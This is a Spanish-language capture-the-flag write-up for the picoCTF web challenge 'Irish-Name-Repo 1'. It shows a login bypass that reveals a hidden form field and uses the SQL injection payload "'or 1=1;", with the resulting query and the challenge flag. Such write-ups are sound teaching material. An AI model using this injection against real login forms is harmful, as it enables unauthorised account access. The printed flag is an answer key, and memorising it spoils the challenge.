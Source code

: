 # Irish-Name-Repo 1
## Descripcipción
Hay un sitio web en `https://jupiter.challenges.picoctf.org/problem/33850/`( [enlace](https://jupiter.challenges.picoctf.org/problem/33850/) ) o http://jupiter.challenges.picoctf.org:33850. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!
## Pistas
- No parece haber muchas maneras de interactuar con esto. Me pregunto si los usuarios se mantienen en una base de datos.
- Trate de pensar en cómo el sitio web verifica su inicio de sesión.x
## Solucion
```
- se visita el codigo fuente de la pagina
- se usa el inspector
- se borra el hiden
- se muestra el valor oculto y se cambia a 1

username: 'or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name=''or 1=1;' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
## Bandera
picoCTF{s0m3_SQL_f8adf3fb}
## Notas adicionales
El usuario ingresa datos y altera la entrada
## Referencias
https://www.w3schools.com/sql/sql_injection.asp
